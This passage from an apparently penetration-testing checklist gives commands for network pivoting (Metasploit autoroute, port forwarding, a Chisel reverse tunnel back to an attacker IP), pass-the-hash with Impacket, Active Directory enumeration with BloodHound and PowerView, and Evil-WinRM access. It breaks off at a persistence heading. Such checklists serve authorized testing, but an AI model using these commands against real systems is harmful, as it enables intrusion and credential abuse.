 #### Metasploit Pivoting
- [ ] **Meterpreter Autoroute**:
  ```bash
  run autoroute -s <subnet>
  run autoroute -p  # Print routes
  ```
- [ ] **Port Forwarding**:
  ```bash
  portfwd add -l <local_port> -p <remote_port> -r <remote_host>
  ```

#### Chisel Tunneling
- [ ] **Chisel Server** (on attacker machine):
  ```bash
  ./chisel server -p 8080 --reverse
  ```
- [ ] **Chisel Client** (on compromised machine):
  ```bash
  ./chisel client <attacker_ip>:8080 R:socks
  ```

### Windows Lateral Movement

#### Pass-the-Hash Attacks
- [ ] **Using Impacket**:
  ```bash
  python3 psexec.py -hashes <lm_hash>:<nt_hash> administrator@<target>
  python3 wmiexec.py -hashes <lm_hash>:<nt_hash> administrator@<target>
  ```

#### Active Directory Enumeration
- [ ] **BloodHound Data Collection**:
  ```powershell
  Import-Module SharpHound.ps1
  Invoke-BloodHound -CollectionMethod All
  ```
- [ ] **PowerView Enumeration**:
  ```powershell
  Import-Module PowerView.ps1
  Get-NetDomain
  Get-NetUser
  Get-NetGroup
  Get-NetComputer
  ```

#### WinRM Exploitation
- [ ] **Evil-WinRM**:
  ```bash
  evil-winrm -i <target> -u <username> -p <password>
  evil-winrm -i <target> -u <username> -H <hash>
  ```

### Persistence Mechanisms
